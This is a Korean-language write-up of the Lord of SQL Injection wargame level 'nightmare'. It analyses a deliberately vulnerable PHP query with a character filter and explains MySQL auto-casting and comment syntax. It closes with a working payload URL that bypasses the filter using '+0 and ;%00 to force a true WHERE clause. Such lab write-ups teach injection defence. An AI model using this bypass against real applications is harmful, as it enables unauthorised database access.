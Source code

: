 # Lord of SQL Injection No.18 - nightmare

## 문제 출제 의도

주석 필터링을 우회하고 MySQL Auto Casting을 이용하여 SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석

nightmare 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()`, `#`, `-` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, 받은 pw의 길이가 6 이상이면 `No Hack ~_~`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
```
* 받은 id가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "0"을 제외한 어떤 문자열이든 들어있음'이다.

## MySQL Type Conversion, Auto Casting

* MySQL에도 기타 프로그래밍 언어처럼 형 변환이 존재한다.

* 그 중에, 문자열 관련 자료형이 숫자 자료형으로 변환되는 경우 문자열에서 문자가 나오기 전에 나오는 숫자만 변환되고 만약 문자가 가장 먼저 나오면 0으로 변환된다.

* MySQL의 Type Conversion에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [MySQL :: MySQL 5.7 Reference Manual :: 12.2 Type Conversion in Expression Evaluation](https://dev.mysql.com/doc/refman/5.7/en/type-conversion.html)

## MySQL 주석

* MySQL에서 사용될 수 있는 주석에는 `#`, `--%20` 뿐만 아니라 `;%00`, `/*` 등도 있다.

-----

## Solution
    
1. MySQL Auto Casting, 주석 우회 이용

    MySQL에서 문자열과 숫자를 연산하면 숫자 자료형으로 Auto Casting이 일어난다.

    이때, 문자가 숫자로 시작하지 않으면 0으로 변환되게 된다.

    이를 이용하여, 문자로 시작하는 모든 pw를 가져오는 WHERE절을 구성할 수 있다.

    %2b는 `+`이다.

    ```
    http://los.eagle-jump.org/nightmare_ce407ee88ba848c2bec8e42aaeaa6ad4.php?pw='%2b0);%00
    ```

    ```
    select id from prob_nightmare where pw=(''+0);') and id!='admin'
    ```
